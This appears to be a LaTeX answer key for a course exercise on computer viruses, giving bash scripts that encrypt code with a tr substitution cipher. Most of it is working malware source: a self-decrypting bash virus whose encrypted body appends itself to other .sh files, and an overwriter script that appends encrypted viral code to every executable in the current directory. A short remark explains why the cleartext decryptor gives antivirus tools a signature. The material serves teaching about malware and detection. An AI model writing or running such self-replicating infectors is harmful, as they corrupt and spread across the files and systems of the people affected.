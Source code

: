\documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item
We perform substitutions using the tr command: the short script below performs a substitution of the file \texttt{\$1} encoded in \texttt{tab1}
\begin{lstlisting}
tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

#cat $1 | tr  ["$tab1"] ["$tab0"] > fichier-$$.txt
cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
\end{lstlisting}

\item  We apply this technique to improve the \texttt{vbashp.sh} virus encrypted by substitution, prepending it with a restoration code.
\begin{lstlisting}[language={}]
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] > fichier-$$.sh
#cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
chmod u+x fichier-$$.sh
#./fichier-$$.sh # uncomment this part to enable replication
exit 0

#!/ifp/ihue

bjeq "jqab eqvb"

cqt f fp *.ue;
 aq # rqwt vqwu nbu cfjefbtu hxbj n'bzvbpufqp ue
fc vbuv  "./$f" != "$0";
   vebp # uf jfinb != cfjefbt fpcbjvhpv bp jqwtu
   vhfn -p 9 $0  >> $f; # hgqwv jqab aw xftwu
cf
aqpb
\end{lstlisting}

\begin{attention}
The \textbf{decryptor} (lines 1-10) is in cleartext in the infected file. This is the weak point of this technique: an antivirus can build a signature from the decryption code, even though the viral code itself changes with each infection.
\end{attention}

\item The following code answers the question

\begin{lstlisting}
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="haigbcevrfwnyopjmqdstuxzkl"

#Overwritter I
for file in *; do #for every file
    if [ -x $file -a "$0" != "./$file" -a "$name" != "./$file" ]; then
	echo "infecting $file by adding encrypted viral code"
        #We add the encrypted viral part
	tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] >> $file
    fi
done
\end{lstlisting}



\end{enumerate}
\end{correction}
\end{document}
